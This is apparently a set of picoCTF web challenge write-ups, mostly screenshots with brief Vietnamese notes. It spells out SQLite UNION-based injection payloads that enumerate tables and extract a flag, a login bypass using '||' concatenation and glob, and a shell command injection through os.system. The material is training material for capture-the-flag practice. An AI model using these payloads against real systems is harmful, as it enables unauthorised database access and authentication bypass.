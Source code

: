 # Pico

# 3v@l

![Screenshot 2025-05-06 145459](https://github.com/user-attachments/assets/7341be37-c7dd-452b-9bd5-c16d7c1f9255)

![Screenshot 2025-05-06 145355](https://github.com/user-attachments/assets/c7c3347d-3de3-472a-8d19-29883e1888e6)


# Trickster

![Screenshot 2025-05-06 155332](https://github.com/user-attachments/assets/b1b381bd-837e-408d-be81-cd3efdeac7fe)

![Screenshot 2025-05-06 155403](https://github.com/user-attachments/assets/6f13e065-7c1f-4f66-ab63-f8b5fc0fa6da)

![Screenshot 2025-05-06 155256](https://github.com/user-attachments/assets/ac5c313c-f361-458a-8539-4f0531317528)

![Screenshot 2025-05-06 155535](https://github.com/user-attachments/assets/cf092a89-0610-4e25-b710-7f2a8bd808de)

![Screenshot 2025-05-06 155628](https://github.com/user-attachments/assets/7bc6fb7c-7383-4ff6-a2ee-710ed70c4044)

![Screenshot 2025-05-06 155652](https://github.com/user-attachments/assets/51c486c3-f0db-4f08-b895-2663c972f65a)

![Screenshot 2025-05-06 160930](https://github.com/user-attachments/assets/5728cb41-4208-4af7-8109-5a9f1a6f889b)


# No Sql Injection
![Screenshot 2025-05-06 164913](https://github.com/user-attachments/assets/4b93f124-856c-4681-9027-c002a5ca2cfd)
Base64


# SOAP
![image](https://github.com/user-attachments/assets/66b72268-993f-4abe-a155-b48ce205c653)

![image](https://github.com/user-attachments/assets/e85f7fff-fa60-434e-bf56-02d3efab8184)


# SQLI

![image](https://github.com/user-attachments/assets/85cd66b8-317f-450f-8e67-07690551feda)

Lấy các bảng bằng payload như sau
>a' union select 1,name,3 from sqlite_master where type='table'-- -

![image](https://github.com/user-attachments/assets/f0cc536a-7494-4c2b-99e5-4c918f7ac6ef)

Kiểm tra bảng more_table

>a' union select 1,sql,3 from sqlite_master where name='more_table'-- -

KIểm tra cột flag trong bảng more_table

>a' union select flag,2,3 from more_table-- -

![image](https://github.com/user-attachments/assets/90e55f04-5245-4a7c-a5bf-c5ca3ee1a075)

# MatchTheRegex

![image](https://github.com/user-attachments/assets/c7b34f81-2f2c-437a-b108-c16e5f416f6b)
.*? bắt tất cả các kí tự bất kỳ, số lượng ít nhất cả thể, nghĩa là chỉ lấy } đầu tiên bắt gặp

Nếu không có ? sau * thì nó sẽ khớp tới } cuối cùng trong chuỗi lớn

![image](https://github.com/user-attachments/assets/d3835e3f-9f22-4148-95cf-005ace686b62)
![Screenshot 2025-05-06 183102](https://github.com/user-attachments/assets/6961aae8-79a0-4916-b4e1-49a36da9fb96)

# Caas
![image](https://github.com/user-attachments/assets/746e5afd-8d24-4158-85f6-27ad42af2db4)

>os.system("cowsay " + user_input)

trong shell dấu ; cho phép thực thi nhiều lệnh liên tiếp

![image](https://github.com/user-attachments/assets/f7c67758-e2ff-49d4-a113-9260cd3756d4)
![image](https://github.com/user-attachments/assets/4db39461-ec20-4caa-babf-ed59fb379acf)



# Web Gauntlet 2
![Screenshot 2025-05-07 122359](https://github.com/user-attachments/assets/eaa96d1c-8151-43bd-b10b-7fd44dad9305)

![image](https://github.com/user-attachments/assets/7f39cc63-2344-4762-810b-f24cf18d9deb)

Username là admin nhưng admin đã bị chặn =))), Trong Sqlite || là toán tử để nối chuỗi
>username: adm'||'in
>password: ' glob '*
SELECT username, password FROM users WHERE username='adm'||'in' AND password='' glob '*'

Vậy tại sao có thể bypass được password, '' là 1 chuỗi rỗng glob sẽ so sánh với '\*' nếu khớp trả về true mà '*' khớp với bất kì chuỗi nào => trả về true
![Screenshot 2025-05-07 123050](https://github.com/user-attachments/assets/98af7f57-76ce-450e-a32f-f8957c526564)
![image](https://github.com/user-attachments/assets/596a372d-822f-4294-a861-af9f9301c260)























